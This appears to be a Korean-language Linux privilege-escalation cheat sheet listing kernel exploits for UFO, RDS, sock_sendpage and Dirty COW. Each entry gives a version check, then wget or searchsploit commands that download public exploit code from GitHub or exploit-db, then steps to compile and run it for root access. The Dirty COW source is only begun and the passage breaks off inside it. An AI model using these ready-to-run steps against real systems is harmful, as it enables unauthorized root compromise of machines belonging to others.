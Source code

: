 ### 🔓 CVE-2017-1000112 (UFO)

```bash
# 취약한 버전: Linux Kernel < 4.13
# 확인 방법
uname -r | awk -F. '{if($1==4 && $2<13) print "Vulnerable"}'

# 익스플로잇 다운로드
wget https://raw.githubusercontent.com/xairy/kernel-exploits/master/CVE-2017-1000112/poc.c

# 컴파일 및 실행
gcc poc.c -o ufo
./ufo
```

### 💥 CVE-2010-3904 (RDS)

```bash
# 취약한 버전: Linux Kernel 2.6.30 - 2.6.36-rc8
# 확인 방법
uname -r | grep -E "^2\.6\.(3[0-6]|3[0-5])"

# 익스플로잇 다운로드
searchsploit -m 15285
# 또는
wget https://www.exploit-db.com/download/15285

# 컴파일 및 실행
gcc 15285.c -o rds
./rds
```

### 🎪 CVE-2009-2692 (sock_sendpage)

```bash
# 취약한 버전: Linux Kernel 2.4/2.6
# 익스플로잇 코드
searchsploit -m 9435
# 또는
wget https://www.exploit-db.com/download/9435

# 컴파일 및 실행
gcc 9435.c -o sock
./sock
```

### 🚀 CVE-2016-5195 (Dirty COW - 대안 버전)

```bash
# cowroot.c 버전
cat > cowroot.c << 'EOF'
#include <stdio.h>
#include <stdlib.h>
#include <sys/mman.h>
#include <fcntl.h>
#include <pthread.h>
#include <unistd.h>
#include <sys/stat.h>
#include <string.h>
#include <stdint.h>

void *map;
int f;
struct stat st;
char *name;
```